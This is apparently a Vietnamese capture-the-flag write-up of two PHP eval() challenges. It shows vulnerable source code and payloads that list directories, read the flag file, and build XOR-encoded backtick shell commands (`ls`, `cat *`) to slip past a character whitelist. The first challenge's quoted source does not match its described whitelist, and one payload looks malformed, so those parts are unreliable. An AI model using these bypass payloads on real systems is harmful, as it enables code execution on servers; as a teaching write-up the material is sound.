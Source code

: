 # WEB
## HPNY
- Link tham khảo: https://tsublogs.wordpress.com/2018/12/13/wargame-code-breaking-com-solution/
- Source code:
```
 <!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
} 
```
- Đề bài chỉ cho phép sử dụng các kí tự từ 'a' đến 'z', '(', ')', '_' và '.'
- Do phần nội dung được nhập vào được thực thi bởi `eval()` nên có thể bị dính lỗi dạng code/command execution.
- Thử với `system(ls)`:
![system(ls)](./images/Selection_001.png)

- Thay vì sử dụng command execution, ta có thể sử dụng dạng code execution: `print_r(scandir(getcwd()))`
![scandir(getcwd())](./images/Selection_002.png)

- Lấy tên file flag: `print_r(next(array_reverse(scandir(getcwd()))))`
![get flag's filename](./images/Selection_003.png)

- Đọc nội dung flag: `readfile(next(array_reverse(scandir(getcwd()))))`
![flag](./images/Selection_004.png)

## super_calc
- Link tham khảo: https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- Source code:
```
<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"]))
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

- Đề bài chỉ cho phép sử dụng tập kí tự `['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '+', '-', '*', '/', '(', ')', "'", '.', '~', '^', '|', '&']`
- Có thể sử dụng system() hoặc dấu backtick để thực thi các lệnh hệ thống.
 - Liệt kê các file hệ thống (`` `ls` ``): `'0840'^'.*9.'^'~~~~'`
 - Đọc file (`` `cat *` ``): `0000000'^'.--880.'^'~~||(*~'`

